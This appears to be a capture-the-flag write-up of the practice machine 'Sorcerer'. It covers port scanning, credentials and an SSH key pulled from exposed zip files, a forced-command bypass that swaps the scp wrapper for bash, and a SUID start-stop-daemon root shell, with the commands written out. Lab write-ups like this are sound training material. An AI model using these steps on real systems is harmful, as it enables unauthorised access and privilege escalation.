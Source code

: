 ```yaml
---
description: Pg Practice Sorcerer writeup
---
```


# Sorcerer

## Nmap

```
sudo nmap 192.168.150.100 -p- -sS -sV                                                                                                                                                                                              1 ⨯

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http     nginx
111/tcp   open  rpcbind  2-4 (RPC #100000)
2049/tcp  open  nfs_acl  3 (RPC #100227)
7742/tcp  open  http     nginx
8080/tcp  open  http     Apache Tomcat 7.0.4
43329/tcp open  nlockmgr 1-4 (RPC #100021)
45519/tcp open  mountd   1-3 (RPC #100005)
54375/tcp open  mountd   1-3 (RPC #100005)
55683/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

We have HTTP running on ports 80,8080 and 7742. I set to work running `feroxbuster` against all three ports before manually browsing to them.

```
./feroxbuster -u http://192.168.150.100:<port> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](<../../../.gitbook/assets/image (736).png>)

Port 80 shows a page with only '404 not found' displayed. Port 8080 takes us to Apache Tomcat/7.04.

![](<../../../.gitbook/assets/image (737).png>)

The link for the Manager App did not ask for authentication credentials like it normally does. It does provide us with a Access Denied page and also display the Tomcat default credentials of `tomcat:s3cret`.

![](<../../../.gitbook/assets/image (738) (1).png>)

We can store these later and possibly run these credentials against `nikto` or `gobuster` to see if we can enumerate further directories if required.

Port 7742 takes us to the following logon page which contains no identifying information apart from the name 'SORCERER' in the browser tab.

![](<../../../.gitbook/assets/image (739).png>)

Soon after `feroxbuster` picks up the /zipfiles/ directory. On browsing to this we find the following files.

![http://192.168.150.100:7742/zipfiles/](<../../../.gitbook/assets/image (740).png>)

I downloaded the zip files which are not encrypted and browsed through each with the GUI. The max.zip folder contained the most interesting information.

![](<../../../.gitbook/assets/image (741).png>)

The Tomcat files contains credentials for Tomcat.

```
  <role rolename="manager-gui"/>
  <user username="tomcat" password="VTUD2XxJjf5LPmu6" roles="manager-gui"/>
</tomcat-users>
```

We also have `SSH` keys for Max.

![](<../../../.gitbook/assets/image (742) (1).png>)

I changed the permissions of the id\_rsa file to 600 so we can use it for SSH.

```
chmod 600 id_rsa 
```

Looking at the authorized keys files we can see that the file scp\_wrapper.sh is being used as a force command when a user connecting to `SSH`.

![](<../../../.gitbook/assets/image (799).png>)

The contents of scp\_wrapper.sh

![](<../../../.gitbook/assets/image (800).png>)

This means when connect as the user max to SSH we can only execute commands that start with 'scp'. As `SCP` runs over `SSH` we can use use id\_rsa file from Max to connect and overwrite the wrapper file with something more useful such as 'bash' instead of 'scp'.

I edited the scp\_wrapper.sh file to include the command 'bash' and changed the error message for troubleshooting purposes.

![](<../../../.gitbook/assets/image (801).png>)

I then moved Max's 'id\_rsa' key into my SSH folder on /home/kali/.ssh/ in preperation for connecting to SCP.

Once completed connect by SCP and transfer over the wrapper file on our desktop.

```
scp /home/kali/Desktop/scp_wrapper.sh max@192.168.196.100:/home/max/scp_wrapper.sh
```

We can then SSH in as max and will have a bash shell.

```
ssh max@192.168.196.100  
```

![](<../../../.gitbook/assets/image (802).png>)

Upgrade the shell:

```
/usr/bin/script -qc /bin/bash /dev/null
```

Straight away I uploaded `linpeas.sh` after starting a `Python SimpleHTTPServer` on my attacking machine and executed once downloaded.

`Linpeas` soon picks up the SUID bit being set on /usr/sbin/start-stop-daemon.

![](<../../../.gitbook/assets/image (803).png>)

A search on[ GTFObins](https://gtfobins.github.io/gtfobins/start-stop-daemon/) shows we can spawn a root shell.

![](<../../../.gitbook/assets/image (804).png>)

Exploit syntax:

```
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```

![](<../../../.gitbook/assets/image (805).png>)
